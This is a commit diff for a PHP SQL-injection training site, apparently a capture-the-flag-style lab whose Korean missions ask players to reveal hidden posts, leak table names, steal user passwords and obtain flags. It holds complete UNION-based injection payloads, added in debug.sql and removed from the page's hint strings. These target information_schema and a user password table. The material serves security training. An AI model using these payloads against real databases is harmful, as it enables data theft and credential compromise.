

Before and after one commit to rorena15/sql_injection_for_security_experience_only, a PHP site: page /html_sent/main_page.php in a window 1280 px wide. Shown: the top 495 px of the page. Run offline with PHP 8.4, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1); tables that the repository leaves empty or names only in its code hold one stand-in row (values such as "Sample post").

Commit message:
hiden hint

```diff
--- a/html_sent/debug.sql
+++ b/html_sent/debug.sql
@@ -13,3 +13,9 @@ SELECT id, title, content FROM posts WHERE title LIKE '%' OR 1=1 UNION SELECT nu
 SELECT id, title, content FROM posts WHERE title LIKE '%' OR 1=1 UNION SELECT null, title, content FROM posts WHERE is_hidden = 1 ; --%' AND is_hidden = FALSE
 SELECT id, title, content FROM posts WHERE title LIKE '%' OR 1=1 UNION SELECT null, title, content FROM posts WHERE is_hidden = 1 ;--%' AND is_hidden = FALSE
 SELECT id, title, content FROM posts WHERE title LIKE '%' OR 1=1 UNION SELECT id, title, content FROM posts WHERE is_hidden = 1 ;--%' AND is_hidden = FALSE
+SELECT id, title, content FROM posts WHERE title LIKE '%' OR 1=1 UNION SELECT id, title, content FROM posts WHERE is_hidden = 1 ;--%' AND is_hidden = FALSE
+SELECT id, title, content FROM posts WHERE title LIKE '%' OR 1=1 UNION SELECT id, title, content FROM posts WHERE is_hidden = 1 ;--%' AND is_hidden = FALSE
+SELECT id, title, content FROM posts WHERE title LIKE '%' OR 1=1 UNION SELECT null, table_name, null FROM information_schema.tables WHERE table_schema = DATABASE() -- -%' AND is_hidden = FALSE
+SELECT id, title, content FROM posts WHERE title LIKE '%' OR 1=1 UNION SELECT null, name, passwd FROM user_info ;--%' AND is_hidden = FALSE
+SELECT id, title, content FROM posts WHERE title LIKE '%' OR 1=1 UNION SELECT null, name, passwd FROM user_info ;--%' AND is_hidden = FALSE
+SELECT id, title, content FROM posts WHERE title LIKE '%' OR 1=1 UNION SELECT null, id, flag FROM flags WHERE is_secret = TRUE ;--%' AND is_hidden = FALSE
--- a/html_sent/main_page.php
+++ b/html_sent/main_page.php
@@ -26,24 +26,24 @@ $stmt = null;
 // 미션 정보 설정
 $mission_title = '숨겨진 게시글 열람';
 $mission_goal = '검색창에 SQL 인젝션을 입력하여 숨겨진 게시글(<code>is_hidden = TRUE</code>)을 열람하세요.';
-$mission_hint = "' OR 1=1 UNION SELECT id, title, content FROM posts WHERE is_hidden = 1 ;--";
+$mission_hint = "' __ ___ _____ ______ id, title, content ____ posts WHERE _________ = 1 ;--";
 $answer_hint = "숨겨진 게시글의 제목 또는 내용을 입력하세요.";
 
 if ($level === '3') {
     $mission_title = 'DB 구조 유출';
     $mission_goal = '검색창에 SQL 인젝션을 입력하여 데이터베이스 테이블 구조를 유출하세요.';
-    $mission_hint = "' OR 1=1 UNION SELECT null, table_name, null FROM information_schema.tables WHERE table_schema = DATABASE() -- -
+    $mission_hint = "' __ ___ _____ ______ null, table_name, null ____ information_schema.tables WHERE table_schema = DATABASE() -- -
 ";
     $answer_hint = "유출된 테이블 이름 중 하나를 입력하세요.";
 } elseif ($level === '4') {
     $mission_title = '사용자 비밀번호 탈취';
     $mission_goal = '검색창에 SQL 인젝션을 입력하여 사용자 아이디와 비밀번호를 탈취하세요.';
-    $mission_hint = "' OR 1=1 UNION SELECT null, name, passwd FROM user_info ;--";
+    $mission_hint = "' __ ___ _____ ______ null, name, passwd ____ _________ ;--";
     $answer_hint = "관리자 계정의 비밀번호를 입력하세요.";
 } elseif ($level === '5') {
     $mission_title = '플래그 획득';
     $mission_goal = '검색창에 SQL 인젝션을 입력하여 비밀 플래그를 획득하세요.';
-    $mission_hint = "' OR 1=1 UNION SELECT null, id, flag FROM flags WHERE is_secret = TRUE ;--";
+    $mission_hint = "' __ ___ _____ ______ null, id, flag ____ flags _____ is_secret = TRUE ;--";
     $answer_hint = "획득한 플래그 값을 입력하세요.";
 }
 
```
